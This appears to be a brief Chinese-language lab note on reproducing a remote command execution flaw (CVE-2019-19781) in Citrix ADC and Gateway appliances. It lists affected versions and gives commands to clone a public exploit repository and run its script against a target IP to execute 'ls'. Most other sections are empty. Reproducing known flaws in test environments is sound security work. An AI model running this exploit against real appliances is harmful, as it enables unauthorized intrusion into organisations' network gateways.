

# 0x00 软件介绍
Citrix：可以简单理解为从外网接入的公司的VPN设备，或网络出口的路由器设备等

# 0x01 复现环境
使用环境：测试环境  
复现版本：无

# 0x02 环境搭建
无

# 0x03 利用条件
无

# 0x04 影响版本
Citrix ADC and Citrix Gateway version 13.0 all supported builds before 13.0.47.24  
NetScaler ADC and NetScaler Gateway version 12.1 all supported builds before 12.1.55.18  
NetScaler ADC and NetScaler Gateway version 12.0 all supported builds before 12.0.63.13  
NetScaler ADC and NetScaler Gateway version 11.1 all supported builds before 11.1.63.15  
NetScaler ADC and NetScaler Gateway version 10.5 all supported builds before 10.5.70.12  
Citrix SD-WAN WANOP appliance models 4000-WO, 4100-WO, 5000-WO, and 5100-WO all supported software release builds before 10.2.6b and 11.0.3b

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

git clone https://github.com/projectzeroindia/CVE-2019-19781  
cd ./CVE-2019-19781  
bash CVE-2019-19781.sh x.x.x.x 'ls'  
如下图  

# 0x06 踩坑记录
无

# 0x07 参考链接
无
